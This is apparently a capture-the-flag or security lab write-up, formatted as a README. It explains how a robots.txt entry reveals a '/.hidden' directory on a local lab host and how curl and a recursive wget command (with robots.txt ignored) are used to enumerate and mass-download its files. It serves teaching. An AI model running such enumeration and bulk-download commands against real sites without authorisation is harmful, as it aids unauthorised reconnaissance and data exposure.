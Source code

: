 # 📁🔍 Directory Bruteforce & Mass Enumeration

> **OWASP Category:** A01:2021 – Broken Access Control  
> **Severity:** 🟡 Medium  
> **Difficulty:** 🟢 Easy

The website exposes a deeply nested directory structure through robots.txt disclosure, containing hundreds of directories with random names. Each directory contains README files, and through systematic enumeration and automated downloading, attackers can discover sensitive information hidden within the directory maze.

🎯 **Needle in a Haystack:** Sometimes the best hiding place is in plain sight - among thousands of decoy directories!

---

## 🎯 Exploit Technique

### 🔧 Discovery & Enumeration Process

#### 🥇 **Step 1 - Initial Discovery via Robots.txt**
```http
GET /robots.txt HTTP/1.1
Host: 192.168.64.2

Response:
User-agent: *
Disallow: /whatever
Disallow: /.hidden
```

#### 🥈 **Step 2 - Directory Structure Analysis**
```bash
# Access the hidden directory
curl http://192.168.64.2/.hidden/

# Result: Massive directory listing
amcbevgondgcrloowluziypjdh/
bnqupesbgvhbcwqhcuynjolwkm/
ceicqljdddshxvnvdqzzjgddht/
# ... 26 total directories with random names
```

#### 🥉 **Step 3 - Automated Mass Download**
```bash
# Use wget for recursive download
wget -r -np -nH --cut-dirs=1 -R "index.html*" -e robots=off http://192.168.64.2/.hidden/

# Parameters explained:
# -r: recursive download
# -np: no parent directories
# -nH: no host directories
# --cut-dirs=1: remove one directory level
# -R "index.html*": reject index files
# -e robots=off: ignore robots.txt
```
